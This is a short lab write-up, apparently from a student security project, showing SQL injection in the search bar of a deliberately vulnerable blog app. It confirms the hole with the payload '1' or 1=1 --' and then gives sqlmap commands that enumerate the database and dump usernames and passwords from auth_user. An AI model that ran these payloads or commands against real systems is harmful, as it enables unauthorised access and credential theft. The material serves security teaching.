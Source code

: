 # Sql injection 

## SQLI in Search bar

In the search form field when the user searches for anything, the things the user just entered will go directly through the database and return the results to the user. So this is the vulnerable point

![image](https://user-images.githubusercontent.com/63194321/133385296-5295094c-49c4-4034-a3b0-3bc00fecfe3b.png)

We will check in this location.

First, we will search  `'`  on the search form. Result returned error

![image](https://user-images.githubusercontent.com/63194321/133388364-77edc108-4f68-4f64-ac21-bcd30f66c4db.png)

Now here we are pretty sure there will be an `SQLi` error. To be more sure, we will search with a payload `1' or 1=1 --`.

The result returns `all` posts in the database. So this is definitely an `In-band SQLi` vulnerability

### Solution
After determining that there is `In-band SQLi` at this address, we will use sqlmap to scan and attack

**B1.** Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch`

![image](https://user-images.githubusercontent.com/63194321/132506775-bfe319ad-d1e6-4b7d-9535-31730048cc07.png)

**B2.** Define a list of databases:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch --dbs`

![image](https://user-images.githubusercontent.com/63194321/132508430-06ebfa6b-66a3-4e06-bd35-7857fab4a5f0.png)

**B3.** Identify the tables in the database:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132508803-98a9a86f-dca3-419c-84c7-f284a535c659.png)

**B4.** Define columns in tables:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -columns`

![image](https://user-images.githubusercontent.com/63194321/132509383-9d885446-6ffb-4409-957a-ffeabfbac78e.png)

**B5.** Get the username and password values:

`sqlmap -u "https://blog-vul.herokuapp.com/search/?search=d&tagId=chiase" --batch -D public -T auth_user -C username, password --dump`

![image](https://user-images.githubusercontent.com/63194321/132510741-09017ecd-a95e-4cc5-8f45-b0129742314d.png)



